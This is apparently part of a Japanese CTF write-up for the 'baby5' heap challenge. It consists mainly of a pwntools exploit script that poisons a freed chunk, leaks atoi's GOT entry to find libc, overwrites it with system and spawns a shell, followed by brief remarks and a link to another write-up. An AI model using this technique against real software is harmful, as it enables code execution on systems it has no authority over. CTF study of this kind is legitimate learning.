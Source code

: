 ```python
if __name__ == '__main__':
    elf = ELF("./baby5")
    libc = ELF("./libc.so.6")  # 2.27

    atoi_got = elf.got["atoi"]
    ptr_list = 0x6020c0

    atoi_libc = libc.symbols["atoi"]
    system_libc = libc.symbols["system"]

    s = process("./baby5")

    idx = 0
    add(s, 0x20)
    delete(s, idx)
    edit(s, 0, 0x20, p64(ptr_list))
    add(s, 0x20)
    add(s, 0x20, p64(atoi_got))
    libcbase = u64(show(s, 0).ljust(8, b"\x00")) - atoi_libc
    print(hex(libcbase))

    system_addr = libcbase + system_libc
    edit(s, 0, 0x20, p64(system_addr))
    _select(s, b"/bin/sh")

    s.interactive()

```

## Flag

ローカルでシェル取っただけなので無いです

## 公式Writeup?

CTFtimeにSecurity Festを名乗るチームが上げていたので掲載、ただアホみたいに複雑なことをやっている(上によく理解できていない)

https://gist.github.com/0xb0bb/9ce7925e1a3342d243d907a95d48bdca

## 感想

解いた後に各方面のwriteup読んだらunsorted binを利用してmain_arena経由のlibc leakをしていたのでそっちも調べておきます